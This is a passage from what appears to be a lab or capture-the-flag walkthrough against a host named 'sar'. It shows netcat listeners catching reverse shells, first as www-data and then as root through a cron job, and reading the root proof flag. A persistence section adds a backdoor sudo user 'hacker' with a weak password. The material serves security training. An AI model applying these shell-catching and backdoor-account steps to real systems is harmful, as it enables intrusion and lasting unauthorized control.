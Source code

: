 and I see the shell come back to Kali

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443                 
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 57126
www-data@sar:/var/www/html$ whoami
whoami
www-data
```

This means it will probably work! I exit the shell on the 443 listener and re-start it. The hope is that the next time the cron job runs we will get a shell as root.

12) After about a minute, we get a shell as root!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 57130
root@sar:/var/www/html# whoami
whoami
root
root@sar:/var/www/html# ls -la /root | grep -e proof -e txt
ls -la /root | grep -e proof -e txt
-rw-r--r--  1 root root   33 Mar  4 07:34 proof.txt
-rw-r--r--  1 root root   32 Jul 14  2020 root.txt
root@sar:/var/www/html# cat /root/proof.txt
cat /root/proof.txt
de9f1a0c9cf133fdf7572c581b62a365
```

## Persistence (Bonus)

13) As usual, we set up a new user so that we can come back through the ssh server with root privileges

```
root@sar:/var/www/html# useradd -m hacker
useradd -m hacker

root@sar:/var/www/html# echo 'hacker:hacker' | chpasswd
echo 'hacker:hacker' | chpasswd

root@sar:/var/www/html# usermod -aG sudo hacker
usermod -aG sudo hacker
```

PasswordAuthentication is disabled

```
cat /etc/ssh/sshd_config | grep Password
#PasswordAuthentication yes
#PermitEmptyPasswords no
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
```
